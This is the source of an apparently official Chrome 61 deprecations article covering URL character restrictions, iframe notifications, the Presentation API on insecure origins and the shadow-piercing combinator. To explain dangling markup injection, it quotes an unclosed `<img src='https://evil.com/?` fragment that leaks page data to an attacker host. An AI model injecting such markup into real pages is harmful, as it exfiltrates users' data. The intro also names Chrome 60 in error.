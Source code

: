 project_path: /web/_project.yaml
book_path: /web/updates/_book.yaml
description: A round up of the deprecations and removals in Chrome 61 to help you plan. In this version, security improvements, further webkit deprecations, and more.

{# wf_updated_on: 2017-08-03 #}
{# wf_published_on: 2017-08-03 #}
{# wf_tags: deprecations,removals,chrome61 #}
{# wf_featured_image: /web/updates/images/generic/warning.png #}
{# wf_featured_snippet: A round up of the deprecations and removals in Chrome 61 to help you plan. In this version, more restrictions on insecure origins and a change to the shadow-piercing descendant combinator. #}

# Deprecations and Removals in Chrome 61 {: .page-title }

{% include "web/_shared/contributors/josephmedley.html" %}

In nearly every version of Chrome, we see a significant number of updates and
improvements to the product, its performance, and also capabilities of the Web
Platform. This article describes the deprecations and removals in Chrome 60,
which is in beta as of June 8. This list is subject to change at any time.

## Security and Privacy

### Block resources whose URLs contain '\n' and '&lt;' characters.

There is a type of hacking called *dangling markup injection* in which a
truncated URL is used to send data to an external endpoint. For example,
consider a page containing `<img src='https://evil.com/?`. Becaue the URL has no
closing quote, browsers will read to the next quote that occurs and treat the
enclosed characters as if it were a single URL.

Chrome 61 mitigateas this vulnerability by restricting the character sets
allowed in `href` and `src` attributes. Specifically, Chrome will stop
processing URLs when it encounters new line characters (`\n`) and less than
characters (`<`).

Developers with a legitimate use case for new line and less than characters in a
URL should instead escape these characters.

[Intent to Remove](https://groups.google.com/a/chromium.org/d/topic/blink-dev/KaA_YNOlTPk/discussion) &#124;
[Chromestatus Tracker](https://www.chromestatus.com/feature/5735596811091968) &#124;
[Chromium Bug](https://bugs.chromium.org/p/chromium/issues/detail?id=680970)

## Remove usage of notifications from insecure iframes

Perfmission requests from iframes can confuse users since it is difficult to
distinguish between the containing page's origin and the origin of the iframe
that is making the request. When the requests scope is unclear, it is difficult
for users to judge whether to grant or deny permission.

Disallowing notifications in iframes will also align the requirements for
notification permission with that of push notifications, easing friction for
developers.

Developers who need this functionality can open a new window to request
notification permission.

[Intent to Remove](https://groups.google.com/a/chromium.org/d/topic/blink-dev/n37ij1E_1aY/discussion) &#124;
[Chromestatus Tracker](https://www.chromestatus.com/feature/6451284559265792) &#124;
[Chromium Bug](https://bugs.chromium.org/p/chromium/issues/detail?id=695693) 


## Deprecate and remove Presentation API on insecure contexts

It's been found that on insecure origins, the Presentation API can be used as a
hacking vector on insecure origins. Since displays don't have address bars the
API can be used to spoof content. It's also possible to exfiltrate data from
running presentation.

In aligning with Blink’s intention to [remove powerful features on insecure
origins](https://www.chromium.org/Home/chromium-security/
deprecating-powerful-features-on-insecure-origins), we plan to deprecate and
remove support for the Presentation API on insecure contexts. Starting in Chrome
61, `PresentationRequest.start()` will no longer function on insecure origins.

[Intent to Remove](https://groups.google.com/a/chromium.org/d/topic/blink-dev/lumj0lVdtHA/discussion) &#124;
[Chromestatus Tracker](https://www.chromestatus.com/feature/5766218384408576) &#124;
[Chromium Bug](https://bugs.chromium.org/p/chromium/issues/detail?id=733381)


## CSS

### Make shadow-piercing descendant combinator behave like descendent combinator

Note: This change was originally slated for Chrome 60, but was bumped after
Chrome 60 removals were published.

The shadow-piercing descendant combinator (`>>>`), part of
[CSS Scoping Module Level 1](https://drafts.csswg.org/css-scoping/)
, was intended to match the children of a particular ancestor element
even when they appeared inside of a shadow tree. This had some limitations.
First, [per the spec](https://drafts.csswg.org/css-scoping/#deep-combinator), it
could only be used in JavaScript calls such as `querySelector()` and did not
work in stylesheets. More importantly, browser vendors were unable to make it
work beyond one level of the Shadow DOM.

Consequently, the descendant combinator has been removed from relevant specs
including Shadow DOM v1. Rather than break web pages by removing this selector
from Chromium, we've chosen instead to alias the shadow-piercing descendent
combinator to the descendant combinator. The original behavior was
[deprecated in Chrome 45](https://www.chromestatus.com/features/6750456638341120).
The new behavior is implemented in Chrome 61.

[Intent to Remove](https://groups.google.com/a/chromium.org/d/topic/blink-dev/HX5Y8Ykr5Ns/discussion) &#124;
[Chromestatus Tracker](https://www.chromestatus.com/feature/4964279606312960) &#124;
[Chromium Bug](https://bugs.chromium.org/p/chromium/issues/detail?id=489954)


<<../../_deprecation-policy.md>>

{% include "comment-widget.html" %}